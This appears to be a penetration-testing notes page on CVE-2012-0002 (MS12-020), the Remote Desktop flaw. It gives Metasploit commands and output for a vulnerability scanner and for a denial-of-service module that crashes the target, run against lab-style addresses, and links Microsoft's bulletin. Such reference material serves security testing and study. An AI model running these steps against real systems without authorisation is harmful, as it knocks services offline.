 ```yaml
---
title : "CVE-2012-0002"
# pre : ' '
description : "Vulnerabilities in Remote Desktop Could Allow Remote Code Execution."
date : 2020-03-23T11:21:55+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2012-0002 | MS12-020

* MS12-020
* CVE-2012-0002
* CVE-2012-0152

### Scanner

```plain
msf5 > use auxiliary/scanner/rdp/ms12_020_check
```

### Examples

```plain
msf5 > use auxiliary/scanner/rdp/ms12_020_check
msf5 auxiliary(scanner/rdp/ms12_020_check) > set rhosts 10.10.10.16
msf5 auxiliary(scanner/rdp/ms12_020_check) > run

[+] 10.10.10.16:3389      - 10.10.10.16:3389 - The target is vulnerable.
[*] 10.10.10.16:3389      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Exploit DoS

Will bluescreen the target.

```plain
msf5 > use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
msf5 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > set rhosts 10.10.10.15
msf5 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > run
[*] Running module against 10.10.10.15

[*] 10.10.10.15:3389 - 10.10.10.15:3389 - Sending MS12-020 Microsoft Remote Desktop Use-After-Free DoS
[*] 10.10.10.15:3389 - 10.10.10.15:3389 - 210 bytes sent
[*] 10.10.10.15:3389 - 10.10.10.15:3389 - Checking RDP status...
[+] 10.10.10.15:3389 - 10.10.10.15:3389 seems down
[*] Auxiliary module execution completed
```

### URL list

* [Docs.microsoft.com - ms12-020](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2012/ms12-020)
